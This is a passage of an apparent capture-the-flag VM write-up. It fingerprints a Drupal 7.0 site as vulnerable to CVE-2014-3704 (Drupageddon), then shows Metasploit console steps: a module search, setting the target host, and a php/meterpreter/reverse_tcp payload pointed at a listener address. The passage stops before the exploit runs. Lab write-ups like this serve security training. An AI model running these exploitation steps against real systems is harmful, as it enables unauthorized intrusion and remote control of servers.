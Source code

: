 [Wappalyzer](https://www.wappalyzer.com/) give use the precise version of the Drupal
used (with the name and to logo of the VM it is easy to deduce that this is a
Drupal machine). The version is Drupal 7.0 which is vulnerable to CVE-2014-3704
also called
[drupal_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon).

## Exploit

We use metasploit to directly have the Drupal exploit AND directly a
meterpreter:

    msf > search drupal
    [!] Module database cache not built yet, using slow search

    Matching Modules
    ================

      Name                                           Disclosure Date  Rank       Description
      ----                                           ---------------  ----       -----------
      auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
      auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
      exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
      exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution

We set the RHOST to the VM's IP address

    msf exploit(drupal_drupageddon) > set RHOST 10.0.2.4

We check our options

    :::text
    msf exploit(drupal_drupageddon) > show options

    Module options (exploit/multi/http/drupal_drupageddon):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOST      10.0.2.4         yes       The target address
      RPORT      80               yes       The target port
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       The target URI of the Drupal installation
      VHOST                       no        HTTP server virtual host


    Payload options (php/meterpreter/reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.0.2.15        yes       The listen address
      LPORT  4444             yes       The listen port

